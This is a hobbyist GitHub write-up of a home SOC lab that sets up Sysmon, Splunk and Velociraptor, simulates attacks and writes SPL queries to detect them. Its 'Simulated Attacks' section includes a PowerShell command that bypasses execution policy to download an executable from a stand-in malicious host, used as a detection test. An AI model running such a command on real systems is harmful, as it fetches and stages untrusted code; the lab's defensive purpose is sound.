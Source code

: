 # SOC Lab

### Overview
---

The goal for this project is to get a better understanding of how Security Operations work and what tools blue teams have at their disposal to defend against emerging security threats. This lab is aimed to build a basic SIEM and experiment with tools like Sysmon for advanced logging, Splunk for real-time monitoring, and Velociraptor for endpoint forensics.
### Lab Setup
---

The lab setup here is going to be pretty basic. I will be running 3 VMs including:

* Windows 11 Host
* Ubuntu Server (Splunk)
* Ubuntu Server (Velociraptor) 

### Virtualization
---

To get the lab setup I am going to be using virt-manager with libvirtd. If you wish to follow along on Windows, VMware workstation, Virtualbox and Hyper-V are a few options you can use.

### Networking
---

As far as networking goes, I am going to create a new virtual network and put all of the VMs on it. If you want your SOC server to have internet access, you'll want to assign a NIC on a virtual network with NAT, and a second NIC for internal SOC traffic. Do not use a bridged network as we want all of our VMs to be isolated from our home network. 

### Software
---

The software stack we are going to be running in our SOC lab is pretty short: Sysmon, Splunk, and Velociraptor. 

* Sysmon will be put on the Windows 11 Host to achieve more advanced and granular logging, providing us with more data than what default Windows logging behavior would provide. 

* Splunk is our SIEM (Security Information and Event Management) solution. SIEMs are a vital step in monitoring and responding to incidents that may occur on our hosts and networks. They allow us to aggregate our logs across multiple hosts and run queries against them to analyze for suspicious behavior. We will be using the free version of Splunk Enterprise which allows us up to 500MB of indexing a day. 

* Lastly, Velociraptor is an open-source endpoint monitoring, digital forensic, and response platform. It's useful for using digital forensic artifacts to reveal clues as to how an attacker may have breached a host. It also works in real-time to triage these artifacts and attempt to identify anomalies.

Tools that gather data from many hosts give blue teams a larger, more detailed overview of what is happening in their infrastructure.

### Connecting it all
---

Once you have got Splunk and Velociraptor installed on your server VMs, lets get the host(s) connected to them. Firstly, lets get the Splunk Universal Forwarder installed on Windows. Make sure to point the forwarder to your Splunk server IP on port 9997. In our Splunk server VM I am going to enable receiving using this command: `splunk enable listen 9997 -auth admin:changeme`. Lastly, create an inputs.conf file in `C:\Program FIles\SplunkUniversalForwarder\etc\system\local\inputs.conf`. The Splunk Universal Forwarder uses this file to know what to watch and send to the indexer. Here is what I use to get Windows Logs and Sysmon logs forwarded:

```# Collect standard Windows event logs
[WinEventLog]
index = wineventlog

[WinEventLog://Application]
disabled=0
[WinEventLog://Security]
disabled=0
[WinEventLog://System]
disabled=0
```

Then in the Splunk Microsoft Sysmon Add-on inputs.conf:

```
[WinEventLog://Microsoft-Windows-Sysmon/Operational]
disabled = false
index = sysmon
renderXml = 1
source = XmlWinEventLog:Microsoft-Windows-Sysmon/Operational
```

Now if we do a search in Splunk we get:

<img src ="https://i.imgur.com/oslTpky.png">

Next up lets get our Windows host talking to Velociraptor. The setup process requires creating a server config, creating a server installation executable from that config, installing Velociraptor on your server, generating a host executable and finally installing the client agent on your host. I won't go through all of the steps here but here is the quick start guide from Velociraptor's documentation: https://docs.velociraptor.app/docs/deployment/quickstart/. In the end you should be able to see your endpoint listed in the search clients list.

<img src="https://i.imgur.com/ZdAASzp.png">

### Simulated Attacks
---

Lets first do a pretty simple attack: brute force login. On the Windows 11 Host I tried logging into my 'lab' account multiple times with the wrong password. 

<img src ="https://i.imgur.com/hfJbbpf.png">

Next let's run a suspicious PowerShell command: `powershell -NoProfile -ExecutionPolicy Bypass -Command "Invoke-WebRequest http://malicious.test/file.exe -OutFile C:\Users\Public\file.exe"

This command will attempt to download a file and write it to the disk (We're isolated from the internet so it fails).

<img src="https://i.imgur.com/8nvDn42.png">

### Splunk Detection
---

Let’s take a look at Splunk. Splunk uses SPL (Splunk Processing Language) to search, filter, and analyze the many events it ingests. Data in Splunk is stored in indexes, which you can think of like databases. Different types of data may be stored in different indexes—for example, event indexes store log-style data, while metric indexes are optimized for numeric performance metrics. Indexes allow you to efficiently select the data you want without searching the entire dataset.

Splunk ingests data from logs, APIs, or streaming sources, organizes it in indexes, and then allows you to query it with SPL. For example, a simple SPL query to find failed login events in an index called `wineventlog` might look like: `index=wineventlog EventCode=4625`

<img src = "https://i.imgur.com/hsIjawQ.png">

If we open the Event it gives us more detailed information like what account was used to try and log in, what the hostname is, and what the failure reason is.

<img src="https://i.imgur.com/U747LYD.png">
<img src="https://i.imgur.com/SeohptC.png">

Let's make our query more usable by creating a table with time, account, hostname, and ip: `index=main sourcetype=WinEventLog:Security EventCode=4625 | table _time Account_Name Workstation_Name IpAddress`

<img src="https://i.imgur.com/BIQR10j.png">

Now suddenly our logs become a lot more useful since we have a larger overview of what account is trying to be logged into, on what machine its happening, and at what time its happening. But we can get even more specific. We can see which account had the most attempts at logging in unsuccessfully: 
`index=main EventCode=4625 `
`| stats count by Account_Name, Workstation_Name`
`| sort -count`

<img src="https://i.imgur.com/Ky1Hf0i.png">

Now let's look for our suspicious PowerShell command:

`index=sysmon EventCode=1 Image="*powershell.exe"
`| stats count by CommandLine, ParentImage, Computer`
`
<img src="https://i.imgur.com/PgTLcil.png">
But how does this query work?

1. We first specify the events in the sysmon index with `index sysmon`, 
2. Then sort by `EventCode1`. Windows event codes are numerical identifiers for specific things that the operating system records. Event code 1 in this case represents a new process being created; in our instance this is cmd.exe. 
3. After getting all events with event code 1, we filter further by Image which is a field pulled from the sysmon event seen here:

<img src ="https://i.imgur.com/pGrwMXB.png">
### Velociraptor Investigation
---

Now that we've got a little more familiar with Splunk let's move into Velociraptor. In Velociraptor we search for specific things using VQL (Velociraptor query language) which is similar to SPL & SQL. To do this we create what is known as a hunt. Hunts run artifacts (VQL queries) across selected clients to collect data. Velociraptor will track the results per client and we can export this data as JSON or CSV to analyze further. Let's create our first hunt:

<img src="https://i.imgur.com/1UzE3cu.png">

Now we can select which artifacts we want, here is what I am going to run:

**Windows.EventLogs.Evtx** - Collect Windows EVTX logs (Security, System, Sysmon)
**Windows.EventLogs.LogonSessions** (ExplicitLogon) - parses logon/logoff events
**Process listings / Processinfo artifacts** - list running processes and command lines
**Network Connections** - enumerates TCP/UDP connections to link processes to external IPs
**File collection / file metadata** - collect files (or metadata) in directories you want to check for exfiltration
**Autoruns / Registry Artifacts** - Check for persistence

If I select Windows.EventLogs.Evtx, we can see the VQL that is being run:

<img src="https://i.imgur.com/KHKm0wT.png">

After selecting the artifacts you want to run, configure them to your liking and then we can launch them. Once the hunt is finished we can now go investigate. Click on the hunt you just ran, and open up a client it ran on. From the left hand menu we can select `Collected Artifacts`. Select the Artifacts that you chose to collect, and then head over to the results tab.

<img src ="https://i.imgur.com/MTGOQ7K.png">

Here we can see some of the different files that were downloaded on this host:

<img src="https://i.imgur.com/uiiYsh2.png">

Here we can see what ports are listening on our Windows host:

<img src ="https://i.imgur.com/ZMzsQ92.png">


